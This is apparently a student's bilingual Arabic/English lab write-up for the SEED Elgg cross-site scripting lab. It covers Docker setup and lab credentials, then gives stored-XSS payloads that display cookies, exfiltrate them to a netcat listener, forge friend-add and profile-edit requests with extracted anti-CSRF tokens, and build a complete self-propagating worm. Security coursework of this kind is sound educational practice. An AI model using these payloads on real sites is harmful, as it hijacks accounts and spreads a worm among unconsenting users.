# Cross-Site Scripting (XSS) Attack Lab - Elgg Setup Guide
دليل تجهيز معمل هجمات البرمجة عبر مواقع الويب (تطبيق Elgg)
## 1. Overview & Core Concept | نظرة عامة وفكرة العمل

 Cross-Site Scripting (XSS) is a vulnerability where an attacker injects malicious JavaScript code into a vulnerable web application (like the Elgg social network). When victims visit the infected profile, the malicious code executes inside their browser. This allows the attacker to steal session cookies or force the victim's account to automatically self-propagate the malicious code to other users, forming an XSS Worm.

العربية: ثغرة XSS تمكن المهاجم من حقن كود جافا سكريبت خبيث في تطبيق الويب (مثل شبكة Elgg الاجتماعية). عندما يزور الضحايا الملف الشخصي المصاب، يُنفذ الكود داخل متصفحاتهم، مما يسمح بسرقة ملفات الجلسة (Cookies) أو إجبار حساب الضحية على نشر الكود تلقائياً لزوار آخرين، لتتكون دودة XSS (XSS Worm) المتنتشرة ذاتياً.

## 2. Lab Environment Setup | تجهيز بيئة العمل

 Configure the local DNS entries and start the lab containers using Docker Compose.

العربية: إعداد أسماء النطاقات المحلية (DNS) وتشغيل حاويات المعمل باستخدام Docker Compose.
### --- Step 1: Configure DNS / Hosts ---
#### Adding local domain mappings to /etc/hosts (requires root privileges)
```bash
echo "[-] Configuring /etc/hosts entries..."
sudo tee -a /etc/hosts > /dev/null <<EOF
10.9.0.5   www.seed-server.com
10.9.0.5   www.example32a.com
10.9.0.5   www.example32b.com
10.9.0.5   www.example32c.com
10.9.0.5   www.example60.com
10.9.0.5   www.example70.com
EOF
echo "[+] DNS entries added successfully."
```
### --- Step 2: Container Setup and Launch ---
#### Navigate to Labsetup directory, build images, and start containers in the background
```bash
if [ -d "Labsetup" ]; then
    cd Labsetup
    echo "[-] Building Docker containers..."
    docker-compose build or dcbuild
    echo "[-] Starting Docker containers in the background..."
    docker-compose up -d or dcup
    echo "[+] Lab environment is up and running successfully!"
```
* بصير ان نضع كل امر في تيرمنال للسرعة


 ### لكن ظهر خطأ بسيط في النهاية عند محاولة حذف شبكة الدوكر (net-10.9.0.0):
has active endpoints
أي أن الشبكة لا تزال مرتبطة بحاوية أخرى تعمل في الخلفية ولم تتوقف بعد (غالباً حاوية الـ mysql السابقة).
#### 1. حذف حاوية الـ MySQL القديمة يدوياً بقوة:
```bash
docker rm -f 2d6417fc1bbe
```
#### 2. تشغيل البيئة من جديد بسلاسة:
```bash
dcup
```


*هذا يعني أن قاعدة البيانات أتمت إعدادها بنجاح وأصبحت جاهزة تماماً لتلقي الاتصالات من تطبيق Elgg.
#### الخطوة التالية الآن:
افتحي المتصفح في الـ VM (مثل Firefox).

اكتبي في شريط العنوان:
```bash
http://www.seed-server.com
```
#### كيف ندخل بالطريقة الصحيحة الآن؟
انظري إلى أعلى يسار الصفحة، ستجدين زر Log in.

بدلاً من الدخول عبر الرابط التجريبي، اضغطي على Log in وسجلي الدخول بالطريقة الطبيعية للموقع باستخدام بيانات أليس:

* Username: alice

* Password: seedalice




# README - Task 1: Stored XSS Basics (Posting a Malicious Message)

## 📌 1. فكرة التاسك والأهداف (Task Concept & Objectives)
* **الفكرة العامة:** تطبيق ثغرة البرمجة العابرة للمواقع المخزنة (**Stored XSS**) عبر حقن كود برمجتي خبيث داخل منصة التواصل الاجتماعي الضعيفة (Elgg).
* **السيناريو الذكي (دور المهاجم):** 
  * نقوم بدور **"أليس" (المهاجم)** بتعديل الملف الشخصي وزرع الكود، لكي تصاب الصفحة بالعدوى وكل من يزورها ينفذ الكود لديه.
* **الأهداف:**
  1. التحقق من وجود ثغرة Stored XSS وإثباتها عبر ظهور نافذة التنبيه (`Alert`).
  2. التمهيد للتطورات اللاحقة في التاسكات القادمة (مثل تحويله إلى كود دودة `Worm` ينتشر تلقائياً بين مستخدمي الشبكة).

---

## 📌 1. Task Concept & Objectives (English)
* **General Idea:** Practicing Stored Cross-Site Scripting (**Stored XSS**) by injecting malicious JavaScript into the vulnerable Elgg social media application.
* **The Attacker Scenario:** 
  * Acting as **"Alice" (The Attacker)**, we modify the profile to plant the payload, effectively infecting the page so that any visitor executes it.
* **Objectives:**
  1. Verify and prove the existence of the Stored XSS vulnerability using an alert box (`Alert`).
  2. Prepare for upcoming tasks where this payload evolves into a self-propagating worm across network users.

---

## 🛠️ 2. خطوات التنفيذ العملية (Step-by-Step Implementation)
1. فتح المتصفح والدخول إلى منصة Elgg على الرابط المحلي: `http://www.seed-server.com`.
2. تسجيل الدخول بحساب **Alice** (اسم المستخدم: `alice`، كلمة المرور: `seedalice`).
3. الانتقال إلى لوحة التحكم الشخصية والضغط على زر **"Edit html"**.
4. في خانة الوصف (**About me**)، قمنا بإدخال كود الـ JavaScript التجريبي الآتي:
   ```html
   <script>alert('XSS');</script>
   ```
   * الضغط على زر الحفظ (Save) ورؤية النتيجة في صفحة البروفايل.

 

# README - Task 2: Posting a Malicious Message to Display Cookies

## 📌 1. فكرة التاسك والأهداف (Task Concept & Objectives)
* **الفكرة العامة:** استغلال ثغرة البرمجة العابرة للمواقع المخزنة (**Stored XSS**) للوصول إلى معلومات حساسة مخزنة في متصفح الزائر، وتحديداً ملفات تعريف الارتباط (**Cookies**).
* **السيناريو الذكي (دور المهاجم):** 
  * نقوم بدور **"أليس" (المهاجم)** بزرع كود يقرأ الـ Cookies الخاصة بمتصفح أي مستخدم يزور الملف الشخصي، وعرضها عبر نافذة تنبيه (`Alert`).
* **الأهداف:**
  1. إثبات القدرة على الوصول لبيانات الجلسة الحساسة (`document.cookie`) عبر ثغرة XSS.
  2. توضيح مخاطر هجمات اختطاف الجلسات (**Session Hijacking**) التي تعتمد على سرقة الـ Session ID.

---

## 📌 1. Task Concept & Objectives (English)
* **General Idea:** Exploiting the Stored XSS vulnerability to access sensitive data stored in the victim's browser, specifically Session Cookies.
* **The Attacker Scenario:** 
  * Acting as **"Alice" (The Attacker)**, we inject a script into the profile to read and display the visiting user's `document.cookie` via an alert box.
* **Objectives:**
  1. Demonstrate the capability of accessing sensitive session tokens (`document.cookie`) through XSS.
  2. Highlight the risks of **Session Hijacking** attacks where stolen session IDs allow unauthorized account access.

---

## 🛠️ 2. خطوات التنفيذ العملية (Step-by-Step Implementation)
1. الانتقال إلى صفحة تعديل الملف الشخصي لـ **Alice** عبر الضغط على **"Edit html"**.
2. تعديل حقل الوصف (**About me**) وإدخال الكود التالي:
   ```html
   <script>alert(document.cookie);</script>
   ```

   


# README - Task 3: Stealing Cookies from the Victim's Machine

## 📌 1. فكرة التاسك والأهداف (Task Concept & Objectives)
* **الفكرة العامة:** الانتقال من مجرد عرض الكوكيز على شاشة الضحية (كما في Task 2) إلى سرقتها فعلياً وإرسالها إلى جهاز المهاجم (`Attacker's Machine`).
* **السيناريو الذكي (الحيلة التقنية):** 
  * نقوم بزرع كود يولد عنصر صورة وهمي (``) في صفحة الضحية، ويضع في مسارها (`src`) رابط IP الخاص بالمهاجم مرفقاً معه الكوكيز (`document.cookie`).
  * فور تحميل الصفحة، سيقوم المتصفح بإرسال طلب HTTP GET إلى جهاز المهاجم لجلب الصورة، مما ينتج عنه وصول الكوكيز المسروقة مباشرة إلى سيرفر المهاجم.
* **الأهداف:**
  1. إعداد سيرفر استقبال باستخدام أداة الـ Netcat (`nc`) على المنفذ `5555`.
  2. تنفيذ هجوم حقيقي لسرقة الـ Session Cookies وتوثيق وصولها لجهاز المهاجم.

---

## 📌 1. Task Concept & Objectives (English)
* **General Idea:** Moving from just displaying cookies locally (Task 2) to actually exfiltrating and sending them to the attacker's machine.
* **The Attacker Scenario (The Trick):** 
  * We inject a script that dynamically creates a fake `` tag pointing to the attacker's IP (`10.9.0.1`) with the victim's cookies appended in the query string (`?c=...`).
  * When the page loads, the browser automatically sends an HTTP GET request to the attacker to fetch the "image", successfully leaking the session cookies.
* **Objectives:**
  1. Set up a listener server using Netcat (`nc`) on port `5555`.
  2. Execute the payload to successfully steal session cookies and capture them on the attacker's end.

---

## 🛠️ 2. خطوات التنفيذ العملية (Step-by-Step Implementation)
1. **تشغيل مستقبل الاتصالات (سيرفر المهاجم):** فتح التيرمينال وتشغيل أداة `nc` للاستماع على المنفذ `5555`:
   ```bash
   nc -lknv 5555
   ```
   * 1-الانتقال إلى صفحة تعديل الملف الشخصي لـ Alice وضبط خانة الوصف باستخدام وضع Edit HTML.

إدخال كود السرقة الخبيث التالي:
```bash
<script>document.write('');</script>
```
* save
* زيارة صفحة الملف الشخصي لملاحظة استلام الكوكيز مباشرة داخل شاشة التيرمينال الخاصة بأداة nc.
   

# README - Task 4: Becoming the Victim's Friend (The XSS Worm)

## 📌 1. فكرة التاسك والأهداف (Task Concept & Objectives)
* **الفكرة العامة:** بناء أول نموذج لدودة سيبرانية تعتمد على الـ XSS (**XSS Worm**)، محاكاة لهجوم دودة MySpace الشهيرة عام 2005، بحيث يقوم الكود بإجبار أي زائر لصفحة "سامي" على إضافته كصديق تلقائياً.
* **السيناريو الذكي:** 
  * نقوم بدور **"Samy" (المهاجم)** بزرع سكريبت خفي في ملفه الشخصي يرسل طلباً خفياً (`AJAX Request`) للموقع ليقوم الزائر بإضافته كصديق دون تدخله أو علمه.
* **الأهداف:**
  1. فهم كيفية تجاوز حماية الموقع (`Anti-CSRF Tokens`) عبر استخراجها برمجياً في السطور 1 و 2.
  2. إرسال طلب `AJAX GET` خفي عبر المتصفح لتنفيذ إجراءات بالنيابة عن الضحية.

---

## 📌 1. Task Concept & Objectives (English)
* **General Idea:** Building the first XSS worm model, mimicking the famous 2005 MySpace Samy worm, where any visitor to Samy's profile automatically adds Samy as a friend.
* **The Attacker Scenario:** 
  * Acting as **"Samy" (The Attacker)**, we inject a script that executes an invisible `AJAX request` from the victim's browser to add Samy to their friend list automatically.
* **Objectives:**
  1. Understand how to bypass site security (`Anti-CSRF Tokens`) by programmatically extracting them in lines 1 and 2.
  2. Forge and send an invisible `AJAX GET` request to perform actions on behalf of the victim.

---

## 🛠️ 2. خطوات التنفيذ العملية (Step-by-Step Implementation)
1. تسجيل الدخول بحساب **Samy** والانتقال إلى صفحة **Edit profile**.
2. تفعيل وضع **Edit HTML** لضمان إدخال السكريبت الخام دون تعديل.
3. إدخال الكود المكتمل مع وضع الرابط الصحيح في خانة `sendurl`:
   ```html
   <script type="text/javascript">
   window.onload = function () {
     var Ajax = null;
     var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
     var token="&__elgg_token="+elgg.security.token.__elgg_token;
     var sendurl="[http://www.seed-server.com/action/friends/add?friend=59](http://www.seed-server.com/action/friends/add?friend=59)" + ts + token; 
     Ajax = new XMLHttpRequest();
     Ajax.open("GET", sendurl, true);
     Ajax.send();
   }
   </script>
   ```
   * save
   * تسجيل الخروج والدخول بحساب ضحية آخر (مثل Bob)، ثم زيارة صفحة سامي الشخصية للتأكد من إضافة سامي تلقائياً لقائمة أصدقاء الضحية.
   
   


   # README - Task 5: Modifying the Victim's Profile

## 📌 1. فكرة التاسك والأهداف (Task Concept & Objectives)
* **الفكرة العامة:** تطويع هجمات الـ XSS لتعديل الملف الشخصي للمستخدم الضحية (`Victim's Profile`) تلقائياً بمجرد زيارته لصفحة المهاجم (سامي)، وهو التصعيد الثاني نحو بناء الدودة السيبرانية المتكاملة.
* **السيناريو الذكي:** 
  * إرسال طلب `POST Request` مخفي عبر المتصفح باستخدام `AJAX` يغير محتوى خانة "About Me" الخاصة بالضحية دون علمه.
* **الأهداف:**
  1. صياغة طلب POST وإرسال البيانات مع رموز الحماية والتأكد من توافق الـ Content-Type.
  2. فهم دور الشرط البرمجي في منع الحلقات التكرارية اللانهائية (Infinite Loops) عندما يزور المهاجم صفحته الخاصة.

---

## 📌 1. Task Concept & Objectives (English)
* **General Idea:** Forging an attack to automatically modify the victim's profile data upon visiting the attacker's page, serving as the second milestone towards a self-propagating worm.
* **The Attacker Scenario:** 
  * Sending a forged `POST Request` via background `AJAX` to overwrite the victim's "About Me" field without their consent.
* **Objectives:**
  1. Construct and dispatch an HTTP POST request with appropriate tokens and content type headers.
  2. Understand the necessity of safety checks to prevent infinite execution loops when the attacker visits their own profile.

---

## 🛠️ 2. خطوات التنفيذ العملية (Step-by-Step Implementation)
1. تسجيل الدخول بحساب **Samy** والانتقال لصفحة تعديل الملف الشخصي وتفعيل وضع **Edit HTML**.
2. إدخال السكريبت البرمجي المكتمل مع تعبئة المتغيرات ورابط الـ POST المناسب:
   ```html
   <script type="text/javascript">
   window.onload = function () {
     var userName="&name="+elgg.session.user.name;
     var guid="&guid="+elgg.session.user.guid;
     var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
     var token="&__elgg_token="+elgg.security.token.__elgg_token;
     var content = token + ts + userName + '&description=Samy is my hero';
     var samyGuid = 59;
     var sendurl = "[http://www.seed-server.com/action/profile/edit](http://www.seed-server.com/action/profile/edit)";

     if (elgg.session.user.guid != samyGuid) 
     {
         var Ajax = null;
         Ajax = new XMLHttpRequest();
         Ajax.open("POST", sendurl, true);
         Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
         Ajax.send(content);
     }
   }
   </script>
   ```
   * حفظ التغييرات (Save).
   
تسجيل الخروج والدخول بحساب ضحية آخر (مثل Bob)، ثم زيارة صفحة سامي.

*الانتقال إلى ملف Bob الشخصي للتأكد من تغير خانة الوصف تلقائياً إلى النص المحدد.
   
   
   
   


# README - Task 6: Writing a Self-Propagating XSS Worm

## 📌 1. فكرة التاسك والأهداف (Task Concept & Objectives)
* **الفكرة العامة:** تحويل السكريبت إلى **دودة سيبرانية حقيقية متكاثرة ذاتياً (`Self-Propagating Worm`)**، بحيث لا تكتفي بتعديل بروفايل الضحية وإضافة الصديق فحسب، بل تنسخ نفسها داخل ملف الضحية الجديد ليتحول هو الآخر إلى ناشر للعدوى لأي شخص يزوره.
* **الأسلوب المستخدم:** `DOM Approach`، حيث يقوم الكود بقراءة نفسه من الصفحة الحالية عبر الـ `DOM` وتشفيرها وإرفاقها مع طلب الـ `POST` الخاص بتعديل البروفايل.
* **الأهداف:**
  1. فهم آلية انتشار البرمجيات الخبيثة والدودية (Worms propagation mechanics).
  2. استخراج كود الـ JavaScript برمجيياً باستخدام معرفات الـ DOM (`getElementById` و `innerHTML`).

---

## 📌 1. Task Concept & Objectives (English)
* **General Idea:** Upgrading the script into a true **Self-Propagating XSS Worm**, which not only modifies the victim's profile and adds a friend but also embeds a copy of itself into the victim's profile, turning them into a carrier of the worm.
* **Approach Used:** `DOM Approach`, where the worm extracts its own code via the DOM, encodes it, and appends it to the profile-update POST request.
* **Objectives:**
  1. Understand worm propagation mechanics.
  2. Programmatically extract JavaScript source code using DOM APIs (`getElementById` and `innerHTML`).

---

## 🛠️ 2. خطوات التنفيذ العملية (Step-by-Step Implementation)
1. تسجيل الدخول بحساب **Samy** والانتقال لصفحة تعديل الملف الشخصي وتفعيل وضع **Edit HTML**.
2. لصق كود الدودة المكتمل (مع مراعاة مطابقة رقم الـ `samyGuid` الصحيح):

```bash
   <script id="worm" type="text/javascript">
window.onload = function () {
    var headerTag = "<script id=\"worm\" type=\"text/javascript\">";
    var jsCode = document.getElementById("worm").innerHTML;
    var tailTag = "</" + "script>";
    
    var wormCode = encodeURIComponent(headerTag + jsCode + tailTag);
    
    var userName = "&name=" + elgg.session.user.name;
    var guid = "&guid=" + elgg.session.user.guid;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;
    
    var content = token + ts + userName + '&description=Samy is my hero ' + wormCode;
    
    var samyGuid = 59; // تأكدي أنه رقم سامي الحقيقي لديك
    var sendurl = "http://www.seed-server.com/action/profile/edit";
    var friendurl = "http://www.seed-server.com/action/friends/add?friend=" + samyGuid + ts + token;

    if (elgg.session.user.guid != samyGuid) {
        var Ajax = new XMLHttpRequest();
        Ajax.open("POST", sendurl, true);
        Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        Ajax.send(content);

        var AjaxFriend = new XMLHttpRequest();
        AjaxFriend.open("GET", friendurl, true);
        AjaxFriend.send();
    }
}
</script>

```
   * اختبار الانتشار عبر زيارة الضحية الأول لصفحة سامي، ثم زيارة مستخدم ثالث لصفحة الضحية الأول للتأكد من انتقال العدوى وتكاثر الدودة.
   

   
   
   
